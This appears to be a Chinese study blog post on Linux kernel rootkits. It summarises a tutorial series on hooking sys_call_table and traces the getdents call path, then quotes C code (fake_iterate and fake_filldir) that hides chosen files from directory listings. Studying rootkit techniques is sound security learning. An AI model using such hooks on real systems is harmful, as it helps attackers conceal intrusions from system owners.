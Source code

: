 ```yaml
---
title: Linux Kernel Rootkit Learning
date: 2017-08-25 12:27:29
tags:
- rootkit
- hooing system
categories:
- kernel_exploit
---
```


昨天做csaw 2014 ctf的kernel exploit，突然发现代码有点看不懂，但好像又似曾相识的感觉~后来想起来是在freebuf上看了linux rootkit的教程，但是那时看的不是很懂...，现在看，有种豁然开朗的感觉，所以就干脆学习一番。
<!-- more -->
## linux rootkit系列教程：
[Linux Rootkit系列一：LKM的基础编写及隐藏](http://www.freebuf.com/articles/system/54263.html)
[Linux Rootkit 系列二：基于修改 sys_call_table 的系统调用挂钩](http://www.freebuf.com/sectool/105713.html)
[Linux Rootkit系列三：实例详解 Rootkit 必备的基本功能](http://www.freebuf.com/articles/system/107829.html)
[Linux Rootkit 系列四：对于系统调用挂钩方法的补充](http://www.freebuf.com/articles/system/108392.html)
[Linux Rootkit 系列五：感染系统关键内核模块实现持久化](http://www.freebuf.com/articles/system/109034.html)

## Hooking Syscall
因为hooking sys_call_table中的系统调用在rootkit中扮演者很重要的角色，所以我们首先要做的就是学会hooking a syscall。其中最重要的就是finding the address of sys_call_table。教程中讲了好几种方法获得sys_call_table的地址：
1. force searching
2. reading System.map
3. with IDT
原理都比较简单，一看就懂，也不需要特别强调什么的。
然后需要解决的是写保护——因为sys_call_table所在的内存是有写保护的。这部分也不难，可以调用内核提供的操作寄存机CR0的接口。
在修改sys_call_table中的函数指针时要注意，我们必须要先保存原来的函数地址，因为在hooking的时候以及后面恢复系统调用时会用到。

## Hidding what you want 
其实我着重看的是教程中的系列三，很有趣，也很有用。但是跟教程里说的一样，我把重点中的重点放在了hidding file上，学会hidding file了，其他的基本也就会了。
文件的ls是通过系统调用getdents实现的，我们来看看getdents实现的[源码](http://elixir.free-electrons.com/linux/v3.13/source/fs/readdir.c#L192)：
```c
struct linux_dirent {
	unsigned long	d_ino;
	unsigned long	d_off;
	unsigned short	d_reclen;
	char			d_name[1];
};

SYSCALL_DEFINE3(getdents, unsigned int, fd,
		struct linux_dirent __user *, dirent, unsigned int, count)
{
	struct fd f;
	struct linux_dirent __user * lastdirent;
	struct getdents_callback buf = {
		.ctx.actor = filldir,
		.count = count,
		.current_dir = dirent
	};
	int error;

	if (!access_ok(VERIFY_WRITE, dirent, count))
		return -EFAULT;

	f = fdget(fd);
	if (!f.file)
		return -EBADF;

	error = iterate_dir(f.file, &buf.ctx);
	if (error >= 0)
		error = buf.error;
	lastdirent = buf.previous;
	if (lastdirent) {
		if (put_user(buf.ctx.pos, &lastdirent->d_off))
			error = -EFAULT;
		else
			error = count - buf.count;
	}
	fdput(f);
	return error;
}
```
可以看到sys_getdents主要调用了iterate_dir，我们再来看iterate_dir:
```c
struct dir_context {
	const filldir_t actor;
	loff_t pos;
};

int iterate_dir(struct file *file, struct dir_context *ctx)
{
	struct inode *inode = file_inode(file);
	int res = -ENOTDIR;
	if (!file->f_op->iterate)
		goto out;

	res = security_file_permission(file, MAY_READ);
	if (res)
		goto out;

	res = mutex_lock_killable(&inode->i_mutex);
	if (res)
		goto out;

	res = -ENOENT;
	if (!IS_DEADDIR(inode)) {
		ctx->pos = file->f_pos;
		res = file->f_op->iterate(file, ctx);
		file->f_pos = ctx->pos;
		file_accessed(file);
	}
	mutex_unlock(&inode->i_mutex);
out:
	return res;
}
EXPORT_SYMBOL(iterate_dir);
```
这部分操作主要是调用file_operations里面的iterate函数，然后我们再来查找[vfs](http://elixir.free-electrons.com/linux/v3.13/source/fs/ext4/dir.c#L505)的file_operations的定义：
```c
const struct file_operations ext4_dir_operations = {
	.llseek		= ext4_dir_llseek,
	.read		= generic_read_dir,
	.iterate	= ext4_readdir,
	.unlocked_ioctl = ext4_ioctl,
#ifdef CONFIG_COMPAT
	.compat_ioctl	= ext4_compat_ioctl,
#endif
	.fsync		= ext4_sync_file,
	.release	= ext4_release_dir,
};
```
可以看到，iterate的实现是ext4_readdir，再次跟进去貌似有点难读了，难怪作者也是跟到这没怎么详细讲了~只是粗略地讲了下过程：ext4_readdir最终会通过filldir把目录里面的项目一个一个的填到getdents返回的缓冲区里，缓冲区里是一个个的linux_dirent。
总的来说，调用层次如下：
sys_getdents-> iterate_dir-> struct file_operations 里的iterate->省略若干层次 -> struct dir_context 里的actor(mostly filldir)。
要达到隐藏文件的目的，我们需要hooking filldir，在hooking function中去掉我们需要隐藏的文件记录，不填到缓冲区，这样应用程序就收不到相应的记录，也就打到了隐藏文件的目的。

具体思路是hooking相应目录的iterate，把dir_context的actor改为fake filldir，fake filldir把隐藏的文件过滤。下面是作者的实现：
```c
int
fake_iterate(struct file *filp, struct dir_context *ctx)
{
    // 备份真的 ``filldir``，以备后面之需。
    real_filldir = ctx->actor;

    // 把 ``struct dir_context`` 里的 ``actor``，
    // 也就是真的 ``filldir``
    // 替换成我们的假 ``filldir``
    *(filldir_t *)&ctx->actor = fake_filldir;

    return real_iterate(filp, ctx);
}


int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
        // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
        fm_alert("Hiding: %s", name);
        return 0;
    }

    /* pr_cont("%s ", name); */

    // 如果不是需要隐藏的文件，
    // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
```
看这类文章真的能学到好多，作者写的也真心不错。其他的也粗略地看了下，思路都差不多。还有那个系列五也非常有趣，下次碰到相应的问题再来详细研究。
有趣，接下来去做2014 csaw ctf的kernel exploit了。
